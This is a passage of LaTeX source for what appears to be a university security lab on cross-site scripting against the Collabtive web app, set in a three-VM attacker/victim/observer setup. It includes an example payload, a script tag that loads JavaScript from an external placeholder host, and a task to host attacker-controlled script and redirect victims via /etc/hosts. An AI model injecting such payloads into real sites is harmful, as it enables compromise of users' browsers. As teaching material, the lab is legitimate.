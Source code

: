 \documentclass{article}
\begin{document}
In the case of Figure \ref{fig:inject}, the JavaScript code is short enough to be typed into the 
company field. If you want to run a long JavaScript, but you are limited
by the number of characters you can type in the form, you can store the 
JavaScript program in a standalone file, save it with the .js extension, and 
then refer to it using the {\tt src} attribute in the {\tt <script>} tag. 
See Figure \ref{fig:dom} for an example.
\begin{figure}[ht]
\begin{Verbatim}[frame=single]
<script src="http://www.example.com/myscript.js"></script>
\end{Verbatim}
\caption{XSS to External Domain}
\label{fig:dom}
\end{figure}
In Figure \ref{fig:dom}, the page will fetch the JavaScript program from
\url{http://www.example.com}, which can be any web server. 

For your next task, you will host a website on the attacker (VM1 Attacker) machine that will have a javascript page.  Your goal is to display some effect after navigating to the VM2 Server/Victim XSS {\tt Collabtive} site from VM3 Observer browser.  Bonus points may be awarded for creativity.  You will have to configure the apache web server and the file on the attacker with appropriate permissions.  You will also need to modify {\tt /etc/hosts} on the target VM2 Server/Victim and VM3 Observer so that your domain points to the attacker.  The alternative is to create a DNS infrastructure.  Appendix A explains how to do these configurations. \\

\\
NOTE: Even when the code inject fails, it still looks like it worked because the browser will try to interpret the code as one of the existing scripts in its place.  Make sure at the very least your proof is a unique message.

\end{document}

